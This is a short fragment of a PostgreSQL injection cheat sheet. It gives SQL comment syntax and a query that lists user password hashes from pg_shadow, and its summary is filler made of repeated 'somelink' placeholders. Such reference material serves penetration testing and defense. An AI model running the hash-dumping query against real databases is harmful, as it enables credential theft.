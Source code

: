 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>



<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL List Password Hashes</h2>

```
<span style=“color:green;”>SELECT</span> usename, passwd FROM pg_shadow
```
